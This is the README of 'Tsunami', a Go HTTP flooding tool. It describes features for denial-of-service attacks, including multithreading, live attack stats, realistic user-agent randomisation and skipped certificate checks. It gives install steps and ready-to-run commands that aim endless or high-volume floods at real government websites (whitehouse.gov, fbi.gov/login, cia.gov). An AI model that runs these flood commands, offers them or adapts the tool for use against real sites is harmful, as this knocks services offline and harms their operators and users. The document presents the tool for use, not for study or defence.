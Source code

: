# Tsunami
Tsunami is an advanced HTTP flooder written in Golang. It's currently implemented features include:

- Live attack stats
- Customizable mutlithreading
- HTTPS support __(Note: Certificates aren't verified for performance)__
- Realistic User Agent randomization

__This project is huge WIP__

## Basic Usage
```bash
./tsunami http://whitehouse.gov --threads 100
```

## Help
```bash
./tsunami --help
```

## Quick install
```bash
git clone https://github.com/ammario/tsunami
cd tsunami
export GOPATH=`pwd`
go get ./...
go build
```

## Examples
### Low Volume POST Flood Lasting Forever
```bash
./tsunami -w 2 "https://fbi.gov/login" POST "username=Ammar&password=g1thuB123"
```
### High Volume HEAD Flood Lasting For 10 Minutes
```bash
./tsunami -w 100 -s 600 "https://cia.gov/" HEAD
```

## Todo
 - Dynamic tokens (E.g {RANDOM_STRING}, {RANDOM_INT})
 - Custom headers
 - ???